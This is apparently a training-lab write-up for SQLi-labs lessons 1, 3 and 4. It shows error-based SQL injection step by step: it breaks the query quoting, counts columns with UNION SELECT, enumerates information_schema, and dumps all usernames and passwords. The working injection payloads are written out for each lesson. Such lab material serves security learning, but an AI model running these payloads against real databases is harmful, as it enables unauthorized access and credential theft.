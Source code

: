 # SQLI

## LESS-1: Error based - single quote - string
*Reference wiki.bi0s.in*
		
here we are asked to input id as parameter with numeric value so when we give ?id=10 we get username and password, To break the query we try giving special characters like \,' ,so when we give \ as input we get an error  ''\' LIMIT 0,1' saying that the syntax of query is wrong 

here the part of the query which has the error is placed inside single quotes removing them we get
'\' LIMIT 0,1 so here we can clearly see that the input we give is place inside the single quotes, i.e this query is single quoted 

now we try to dump the data i.e get all usernames and passwords by giving a specified input

1.First we try to find the number of attributes in the query 
this can be done by using UNION keyword, which when used in a query should have same no of attributes 
so when we try untill we get rid of the error
?id=-1' UNION select 1,2,3-- -

so from this the statement we can conclude that we are having 3 attributes in the query and the username and password we get are the input we gave at second and third positions

so using database() we find the database(security)
now we find table name and column name 
so inside information_schema we have a relation named TABLES which contains data of all tables,so this relation contains attributes named TABLE_SCHEMA and TABLE_NAME, which has database names and names of TABLE_NAME respectively

So now to get list of all tables in database
we give 
#?id=-1' union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = 'security'-- - 

Now to get the attributes in the users table we give the query

#?id=-1' union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME='users' and TABLE_SCHEMA='security'-- -

now we have the attributes id,username,password now to dump the data we give 

#?id=-1' union select 1,group_concat(username),group_concat(password) from users -- - 

which will give all the usernames and passwords

## LESS-3: Error-based-single quotes with twist
		
this is also similar to less-1,when we give an integer we get username and password,here the difference is when we try to break the query using \ or ' 
we get
'\') LIMIT 0,1 
so the we can understand that this is a single quoted query with brackets
now this is same as less-1 the only thing we change here is we add a bracket after the single quote 
so briefly the payloads used are

?id=-1') UNION select 1,2,3-- -  
to find no of columns

?id=-1') union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = 'security'-- - 
to find table name(users)

?id=-1') union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME='users' and TABLE_SCHEMA='security'-- -
to get attribute names(username,id,password)

?id=-1') union select 1,group_concat(username),group_concat(password) from users -- - 
to get values

## LESS-4:Error-based-Double quotes
This is also a very similar one to less-1 and less-3 since the database and tables are the same, only difference is breaking the query
so when we give \ as input we get
 "\") LIMIT 0,1
so we can conclude that this is double quoted query with brackets
and from here this is same as above one
the payloads are
?id=-1") UNION select 1,2,3-- -
To find no of attributes

?id=-1") union select 1,group_concat(TABLE_NAME),3 FROM information_schema.TABLES where TABLE_SCHEMA = 'security'-- - 
to find table name(users)

?id=-1") union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME='users' and TABLE_SCHEMA='security'-- -
to get attribute names

?id=-1") union select 1,group_concat(username),group_concat(password) from users -- - 
to get attribute names(username,id,password)



